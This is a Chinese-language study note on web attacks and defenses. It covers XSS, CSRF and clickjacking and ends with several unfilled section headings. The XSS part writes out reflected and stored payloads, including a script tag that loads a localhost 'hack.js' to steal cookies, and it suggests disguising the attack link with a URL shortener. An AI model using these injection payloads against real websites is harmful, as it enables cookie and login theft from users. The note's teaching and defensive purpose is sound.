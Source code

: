 # XSS

cross site scripting 与 css 重叠所以只能叫 xss
跨站脚本攻击

存在安全漏洞的 web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或者 Javascript 进行的一种攻击

影响：

- 利用虚假输入表单骗取用户个人信息
- 利用脚本窃取用户 Cookie 的值
- 显示伪造的文章或图片

XSS 攻击分类
反射型 - url 参数直接注入

> // 普通 http://localhost:3000/?from=china
> // alert 尝试 http://localhost:3000/?from=<script>alert(3)</script>
> // 获取 Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
> // 短域名伪造 https://dwz.cn/

存储型 - 存储到 DB 后读取时注入

```
// 评论 <script>alert(1)</script>
// 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

防范手段

- HEAD
  ctx.set('X-XSS-Protection', 0) // 禁止 XSS 过滤 // http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
- CSP 白名单
- 转义字符
- 黑名单
- HttpOnly Cookie
  保护 cookie

# CSRF

跨站请求伪造，常见的 web 攻击，利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作

CSRF 攻击危害
利用用户登录态
用户不知情
完成业务请求
盗取用户资金（转账，消费）
冒充用户发帖背锅
损害网站声誉

防御
禁止第三方网站带 Cookie - 有兼容性问题
Referer Check - Https 不发送 referer
验证码

# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己
的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御
X-FRAME-OPTIONS
js 方式

SQL 注入

OS 命令注入

http 劫持

dns 劫持

# HTTPS

# 风控策略

# 可信前端

# 前端-服务端安全策略
